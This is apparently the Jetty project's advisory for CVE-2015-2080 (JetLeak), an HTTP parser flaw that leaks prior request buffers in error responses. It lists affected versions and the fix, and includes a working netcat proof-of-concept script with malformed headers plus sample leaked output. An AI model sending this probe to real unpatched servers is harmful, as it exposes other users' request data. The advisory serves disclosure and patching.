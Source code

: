 HttpParser Error Buffer Bleed Vulnerability
===========================================

Published Date:
---------------

2015, Feb 24

CVE:
----

CVE-2015-2080

Discovered and Reported By:
---------------------------

[Gotham Digital Science](http://www.gdssecurity.com/) and Stephen Komal.

[JetLeak Vulnerability Remote Leakage of Shared Buffers in Jetty / blogs.gdsecurity.com](http://blog.gdssecurity.com/labs/2015/2/25/jetleak-vulnerability-remote-leakage-of-shared-buffers-in-je.html)


Affected Versions of Jetty:
---------------------------

  * 9.2.3.v20140905
  * 9.2.4.v20141103
  * 9.2.5.v20141112
  * 9.2.6.v20141205
  * 9.2.7.v20150116
  * 9.2.8.v20150217
  * 9.3.0.M0
  * 9.3.0.M1

Versions of Jetty Containing Fix:
--------------------------------

  * 9.2.9.v20150224

Statement:
----------

Jetty versions 9.2.3.v20140905 through 9.2.8.v20150217 have a ByteBuffer reuse and information bleed vulnerability surrounding bad HTTP request header parsing error responses.

History:
--------

Back in Jetty 9.2.3, a feature requesting more detailed logging messages surrounding problems parsing bad HTTP request headers ( https://bugs.eclipse.org/443049 ) was implemented.

The feature request was to include better debug information in the Jetty logs (at WARN level) to help diagnose and resolve HTTP parsing errors.

However, the implementation incorrectly exposes this debug information back on the HTTP 400 response reason phrase, potentially exposing parts of server side buffers used from prior request processing on the same server.

The following bash shell script demonstrates the problem using netcat on linux against the Jetty Distribution's demo-base.

```
#!/bin/bash

RESOURCEPATH="/test/dump/info"
BAD=$'\a'

function normalRequest {
echo "-- Normal Request --"

nc localhost 8080 << NORMREQ
POST $RESOURCEPATH HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Connection: close
Content-Length: 16

Username=Joakim
NORMREQ
}

function badCookie {
echo "-- Bad Cookie --"

nc localhost 8080 << BADCOOKIE
GET $RESOURCEPATH HTTP/1.1
Host: localhost
Coo${BAD}kie: ${BAD}

BADCOOKIE
}

normalRequest
echo ""
echo ""
badCookie
```

The results are often seen in the HTTP response such as ...

```
HTTP/1.1 400 Illegal character 0x7 in state=HEADER_IN_NAME in 'GET /dummy/ HTTP/... localhost\nCoo\x07<<<kie: \x07\n\n>>>e: application/x-...\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Content-Length: 0
Connection: close
Server: Jetty(9.2.8.v20150217)
```

What you are seeing is a http response phrase that includes raw ByteBuffer details on what happened during the parsing failure.

The parts of the output are in the general form
`{what_has_been_parsed}<<<{left_to_parse}>>>{old_buffer_seen_past_limit}`

The part at `{old_buffer_seen_past_limit}` is where this exposure of past buffers comes from.  It is this information where an exploit could be made to present random prior buffers from the server buffer pool.  This information can contain anything seen in a past handled request.

We have this problem already patched in Jetty 9.2.9.v20150224, and the same test as above results in ...

```
HTTP/1.1 400 Illegal character 0x7
Content-Length: 0
Connection: close
Server: Jetty(9.2.9.v20150224)
```

Everyone is strongly encouraged to upgrade to Jetty 9.2.9.v20150224 immediately.



